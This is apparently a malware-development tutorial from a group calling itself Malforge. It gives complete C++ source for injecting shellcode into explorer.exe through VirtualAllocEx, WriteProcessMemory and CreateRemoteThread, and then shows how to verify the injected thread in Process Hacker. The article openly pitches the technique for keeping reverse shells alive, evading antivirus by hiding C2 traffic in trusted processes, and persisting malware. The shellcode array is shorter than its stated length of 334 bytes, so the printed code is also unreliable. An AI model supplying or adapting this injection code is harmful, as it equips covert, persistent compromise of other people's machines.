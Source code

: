 # Process Code Injection

## Introduction

Welcome to this article. Today, I will demonstrate how to inject a process into another running process on the same machine. For this example, we will inject into the `explorer.exe` process. I hope you find this tutorial informative.

### Why Use Process Code Injection?

- **Extended Lifespan of Payloads:** When using a basic reverse shell, the connection only stays alive while the original executable is running. If the user closes the program, the shell dies. However, by injecting your reverse shell into a legitimate process like explorer.exe, the payload keeps running—even after the original executable is closed—since the injected code now lives inside a different, trusted process.

- **Blending with Legitimate Activity:** If your malware connects directly to a C2 server, it’s easy for antivirus software to flag it as suspicious—especially if the connection comes from an unknown or unsigned executable. Process injection allows you to move your operations into a trusted process like chrome.exe or any web browser, making your network traffic appear more legitimate and harder to detect.

- **Achieving Persistence:** You can enhance persistence by injecting your code into multiple remote processes. Even if one process is terminated, your malicious payload can continue to operate from other injected processes, increasing the resilience of your malware.


![image](https://github.com/user-attachments/assets/4b1f3922-efcc-407c-9f7d-65bbff258601)

## Code :

```C++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

unsigned char payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
  0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
};
unsigned int payload_len = 334;

int FindPID(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}


int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;

        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        
        hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}


int main(void) {
    
 int pid = 0;
    HANDLE hProc = NULL;

 pid = FindPID("explorer.exe");

 if (pid) {
  printf("Explorer.exe PID = %d\n", pid);

  // try to open target process
  hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
      PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
      FALSE, (DWORD) pid);

  if (hProc != NULL) {
   Inject(hProc, payload, payload_len);
   CloseHandle(hProc);
  }
 }
 return 0;
}
```

The code consists of three primary functions, each with a specific role:

- **FindPID:** This function basically receives the name of one process, and return the PID (Process ID) from this process, to do this use `CreateToolhelp32Snapshot` to see all the current processes, and with `Process32First` and `Process32Next`, captures the PID from the previous and next processes executed in victim machine.

- **Inject:** This function inject your shellcode to one process, to do this is very simple uses 3 other functions :\
  1. `VirtualAllocEx`, here is creating little memory space in remote process to after inject code.\
  2. `WriteProcessMemory` with this it’s moving the malicious shellcode to provious memory space created with `VirtualAllocEx`.\
  3. The last one is `CreateRemoteThread` this is to execute the memory location with your malicious code inside.

- **Main:** This function basically are executing the last 2, and controlling errors from other 2 functions.


## POC : 

Now let's execute the code : 

![image](https://github.com/user-attachments/assets/ed01f018-bf77-4c57-82e2-787de92ba1a8)

The popped screen RTO: MalDev displays my shellcode, and it’s working well. However, it only functions if `explorer.exe` is open; otherwise, it doesn’t work. Now, it's time to check if the shellcode has truly been injected into the `explorer.exe` process.

To verify this, I use the Process Hacker. You can download it from the following link :

> Download - Process Hacker\
Process Hacker, A free, powerful, multi-purpose tool that helps you monitor system resources, debug software and detect. [here](https://systeminformer.sourceforge.io/downloads)

Let’s go to explorer threads.

![image](https://github.com/user-attachments/assets/f6d1a4f3-e444-4a83-a8b5-7ad4c3d0b37c)

Both processes have a PID of 756. Now, go to the Threads section where you should see your malicious thread. To identify it, right-click on `explorer.exe` → select Threads, and then search for `ntdll.dll!RtlUserThreadStart`.

`UserThreatStart` is the key string you need to look for in order to identify your malicious thread.

![image](https://github.com/user-attachments/assets/b8fc0b05-667f-49bd-a9aa-d1dc8b822965)

![image](https://github.com/user-attachments/assets/c78538c9-19da-47a4-8e65-d413de62e4c6)

In the malicious thread stack, you should see MessageBox, which corresponds to a Windows MessageBox. This is what it looks like:

![image](https://github.com/user-attachments/assets/3b319658-a949-4f90-b27d-cbbacbd5c987)


## Conclusions

This article has covered one of the simplest forms of code injection into a remote process. While this technique serves as a foundation, more advanced methods will be explored in future content.

Thanks for reading! :smiley:

**-Malforge Group.**
